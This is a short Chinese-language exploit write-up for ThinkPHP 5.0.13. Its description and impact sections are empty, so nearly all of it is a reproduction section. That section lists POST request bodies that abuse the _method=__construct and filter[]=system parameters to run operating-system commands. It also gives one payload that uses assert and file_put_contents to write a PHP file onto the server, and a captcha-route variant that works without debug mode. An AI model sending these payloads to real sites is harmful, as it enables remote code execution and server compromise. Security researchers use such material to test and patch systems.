 Thinkphp 5.0.13
===============

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

> post提交

    www.0-sec.org/?s=index/index

    s=whoami&_method=__construct&method=POST&filter[]=system
    aaaa=whoami&_method=__construct&method=GET&filter[]=system
    _method=__construct&method=GET&filter[]=system&get[]=whoami
    c=system&f=calc&_method=filter

> 写shell

    POST

    s=file_put_contents('zerosec.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert

### 补充

> 有captcha路由时无需debug=true
>
> http://www.0-sec.org/?s=captcha/calc

    POST 

    _method=__construct&filter[]=system&method=GET
